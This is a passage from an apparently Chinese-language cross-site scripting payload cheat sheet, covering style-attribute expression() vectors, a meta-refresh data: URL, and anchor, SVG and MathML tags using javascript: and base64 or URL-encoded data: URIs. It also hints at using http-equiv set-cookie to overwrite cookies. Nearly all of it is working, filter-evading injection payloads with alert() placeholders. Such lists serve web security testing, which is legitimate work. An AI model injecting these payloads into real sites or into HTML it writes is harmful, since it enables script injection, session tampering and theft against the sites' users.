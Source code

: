         ​

     4. style属性内及css代码之中IE可执行，并且在IE9以上被防御，不适合其他浏览器，基本已死。

        ```
        style="width:expression(js代码)"
        background-image:url('javascript:alert(2)')
        ```

   - 输出在meta标签

     ```javascript

     <meta http-equiv="refresh" content="0; url=data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E">
     ```

     还有一些猥琐的思路，就是通过给http-equiv设置set-cookie，进一步重新设置 cookie 来干一些猥琐的事情。







## 0x01 具体标签的Payload

1. a标签

   - javascript伪协议：

     ```html
     <a href=javascript:alert(2)>
     ```

   - data协议执行javascript：

     ```Html
     <a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>
     ```

   ​

   - urlencode版本：

     ```html
     <a href=data:text/html;%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2829%29%3C%2F%73%63%72%69%70%74%3E>
     ```

   - 不使用href的另外一种组合来执行js：

     ```html
     <svg><a xlink:href="javascript:alert(14)"><rect width="1000" height="1000" fill="white"/></a></svg> 
     ```

     或者：

     ```html
     <math><a xlink:href=javascript:alert(1)></math>
     ```

2. script标签
